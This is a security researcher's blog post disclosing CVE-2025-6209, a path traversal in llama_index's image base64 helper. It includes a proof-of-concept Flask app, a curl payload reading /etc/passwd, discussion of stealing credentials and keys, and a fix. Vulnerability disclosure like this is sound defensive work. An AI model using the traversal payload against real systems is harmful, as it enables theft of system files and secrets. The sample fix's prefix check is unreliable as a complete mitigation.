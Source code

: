 ```yaml
---
title: "Path Traversal in `run-llama/llama_index`"
date: 2025-08-17 11:46:44 +0530
categories:
  - AI/ML Research
tags:
  - AI/ML
  - CVE-2025-6209
  - Path Traversal
  - Open Source Library
image: "/assets/img/llama.png"
---
```

# When Your AI Library Reads `/etc/passwd` For You

*How I stumbled into a path traversal in `run-llama/llama_index` and got assigned [`CVE-2025-6209`](https://www.cve.org/CVERecord?id=CVE-2025-6209)*

There’s a funny thing about writing AI libraries these days. Everyone’s in a rush to ship features, wire things together, slap an `encode_image` or `to_base64` somewhere and move on. And in that hurry, the oldest vulnerabilities in the book keep sneaking back in.

This one? A **classic path traversal → arbitrary file read** in [`run-llama/llama_index`](https://github.com/run-llama/llama_index). Yeah, the same kind of bug we were pwning PHP forums with in 2003.

Except now it lives inside the plumbing of an “AI infra” library.

---

## The Setup

Buried in `generic_utils.py` was this innocent line:

```python
with open(image_path, "rb") as image_file:
    return base64.b64encode(image_file.read()).decode("utf-8")
```

Looks harmless, right? Pass it an image, get a base64 string.
But here’s the catch: **`image_path` is attacker-controlled.**

No sanitization. No directory whitelisting. No “hey maybe don’t open `/etc/shadow` as if it were a PNG.” Just raw `open()` on whatever string you throw at it.

And because this gets wrapped inside `ImageDocument` and passed down into `image_documents_to_base64`, suddenly you have a cute little API endpoint that will happily read **any file on the system** for you.

---

## Proof of Concept

I spun up a Flask app to simulate what a careless integration might look like:

```python
from flask import Flask, request
import base64
from llama_index.core.schema import ImageDocument
from llama_index.core.multi_modal_llms.generic_utils import image_documents_to_base64

app = Flask(__name__)

@app.route("/upload", methods=["POST"])
def upload_image():
    image_path = request.form.get("image_path")  # Attacker-controlled input
    doc = ImageDocument(image_path=image_path)
    try:
        encoded = image_documents_to_base64([doc])
        if encoded:
            return {"encoded": encoded[0], "decoded": base64.b64decode(encoded[0]).decode("utf-8")[:500]}
        return {"error": "No content returned"}
    except Exception as e:
        return {"error": str(e)}

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Then I sent it this:

```bash
curl -X POST -F "image_path=../../../../etc/passwd" http://localhost:5000/upload
```

Boom. Base64-encoded contents of `/etc/passwd` in my terminal.
Not an image. Definitely not what the dev intended.

---

## Why This Matters

This is where it gets interesting. Most people will shrug:

> “Oh, it’s just `/etc/passwd`, no big deal.”

But here’s the reality:

* **Information Disclosure**: `/etc/passwd` isn’t the holy grail anymore, but `/etc/shadow` is. Or maybe it’s AWS creds in `~/.aws/credentials`. Or private keys lying around.
* **Privilege Escalation**: If the service runs as root (and let’s be real, a lot of quick AI servers do), then it’s game over.
* **Silent Data Leaks**: AI infra often sits inside bigger pipelines. Exfiltrating config files, API keys, or model weights becomes trivial.

This isn’t just “a bug.” It’s a door.

---

## Root Cause

The root cause is painfully simple:

1. Developer assumed input was “just an image path.”
2. No validation of path traversal (`../`) or absolute paths.
3. No restriction to a safe directory.

This isn’t new. This is **day-one AppSec**. But we keep making the same mistake because frameworks encourage “just pass a string, it’ll work.”

---

## The Fix

Lock it down:

```python
import os

def sanitize_path(image_path):
    absolute_path = os.path.abspath(image_path)
    allowed_root = "/path/to/images"
    if not absolute_path.startswith(allowed_root):
        raise ValueError("Invalid file path")
    return absolute_path
```

And maybe — just maybe — **don’t trust raw file paths from users in 2025.**

---

## Bigger Picture

This bug says more about the *state of AI dev culture* than the code itself.

* We’re gluing libraries together with zero threat modeling.
* Security reviews get skipped because “we need to ship the demo.”
* The same 90s-era bugs are resurfacing in 2025, wrapped in shiny AI wrappers.

As a hacker, it’s almost laughable. But also terrifying. Because this code runs in real production systems. Behind APIs. In companies storing sensitive data.

And attackers don’t need to invent fancy AI exploits when **path traversal still works**.

---

## Closing Thoughts

I’ve been hacking long enough to see patterns. The tools change, the hype changes, but the bugs? They’re eternal.

If you’re building with AI infra, don’t just ask “does it work?”
Ask: **what happens when someone pushes it sideways?**

Because if you don’t, someone else will.

PS: You can refer to this commit for changes pushed later on for patch.
[`Fix`](https://github.com/run-llama/llama_index/commit/cdeaab91a204d1c3527f177dac37390327aef274)

---

*Filed: [Arbitrary File Read via Path Traversal in `run-llama/llama_index`](https://huntr.com/bounties/e89d14f8-bfe8-4c9a-bb2a-656c01cc9a68) 

---
